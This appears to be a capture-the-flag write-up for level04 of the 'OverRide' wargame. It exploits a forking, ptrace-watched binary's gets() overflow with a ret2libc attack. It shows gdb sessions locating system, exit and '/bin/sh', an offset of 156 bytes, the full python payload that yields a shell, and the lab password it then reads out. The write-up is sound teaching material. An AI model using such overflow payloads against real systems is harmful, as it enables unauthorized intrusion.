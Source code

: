# level04

![title screen](Ressources/title_screen04.png)

# [KAMUSARI](https://www.youtube.com/watch?v=qmAHP90yhQs)

```sh
level04@OverRide:~$ ./level04
Give me some shellcode, k
Koby
child is exiting...
level04@OverRide:~$ ./level04 Sengoku
Give me some shellcode, k
Tsuru
child is exiting...
level04@OverRide:~$
```

![binary](Ressources/binary_04.png)

The `main` function is as follows:
- A `fork` is made, the parent `process` waits for the `child` to finish.
- The `child process` is traced and is asked for shellcode `Give me some shellcode, k` and open the standard input by calling the function `gets`.

## WE HAVE ALL INGREDIENTS TO FINISH THIS LEVEL FAST

# <u>Vulnerability</u> : Stacked-Based Buffer Overflow Attack : `Ret2libc`

Yes, we can use a `shellcode` like the program asks us to do, but first we can try a buffer overflow.

> Again, there is 3 unused function, but here we simply ignore them.

## 1. The combo `system + exit + /bin/sh`

```sh
(gdb) b main
Breakpoint 1 at 0x80486cd
(gdb) r
Starting program: /home/users/level04/level04

Breakpoint 1, 0x080486cd in main ()
(gdb) print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) print exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) info proc map
process 1704
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level04/level04
	 0x8049000  0x804a000     0x1000        0x0 /home/users/level04/level04
	 0x804a000  0x804b000     0x1000     0x1000 /home/users/level04/level04
	0xf7e2b000 0xf7e2c000     0x1000        0x0
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0
	0xf7fda000 0xf7fdb000     0x1000        0x0
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:	 "/bin/sh"
(gdb)
```

- `system` : `0xf7e6aed0` (`\xd0\xae\xe6\xf7`)
- `exit` : `0xf7e5eb70` (`\x70\xeb\xe5\xf7`)
- `/bin/sh` : `0xf7f897ec` (`\xec\x97\xf8\xf7`)

## 2. Finding the offset

```sh
(gdb) r
Starting program: /home/users/level04/level04
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
[...]
[...]
[...]
[nothing...]
^C
Program received signal SIGINT, Interrupt.
0xf7fdb435 in __kernel_vsyscall ()
(gdb) 
```

## _Why the program is not crashing ?_

The program does not crash despite the buffer overflow because the parent process is monitoring and controlling the execution of the child process using `ptrace()`. Here are some possible reasons:

1. **Monitoring with `ptrace()`**:
   - The parent process uses `ptrace()` to monitor the execution of the child process. If the child process attempts to execute an `exec()`, the parent process detects this and kills the child process.
   - This prevents the child process from crashing the program by executing malicious code.

2. **Infinite loop in the parent process**:
   - The parent process enters an infinite `do...while` loop that waits for the child process to terminate. If the child process does not terminate normally, the program continues to wait and check the state of the child process.
   - This can give the impression that the program is in an infinite loop, but in reality, it is simply waiting for the child process to terminate, and the reality is the child process is **crashing**.

## _So, what we can do ?_

We follow the `parent process`, and we NEED to follow the `child process` to exploit the buffer overflow.

And `gdb` has a command to do that, **`set follow-fork-mode <mode>`** :

![follow-fork-mode](Ressources/follow_fork_mode.png)

We can use the `set follow-fork-mode child` to follow the `child process` and see what happend in the `child process`, where is the `gets` function in called.

```sh
(gdb) set follow-fork-mode child
(gdb) r
Starting program: /home/users/level04/level04
[New process 1718]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 1718]
0x41326641 in ?? ()
(gdb)
```

## _AHHHHHH, the program crashes! Well, no... The program running in the child process launched by the `fork` function is crashing._

Now, we can obtain the offset : it's `156 bytes`.

## 3. The payload

The classico monster trio for `Ret2libc` :

![The Legendary Trio of the Marine](Ressources/Garp_Sengoku_Tsuru.png)

```sh
level04@OverRide:~$ (python -c 'print "A" * 156 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"'; cat) | ./level04
Give me some shellcode, k
whoami
level05

```

![Usopp going crazy](../assets/Usopp_going_crazy.png)

```sh
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

And go to the next level :

```sh
level04@OverRide:~$ su level05
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05
level05@OverRide:~$
```

# level04 complet !

![yeah](../assets/yeah.gif)
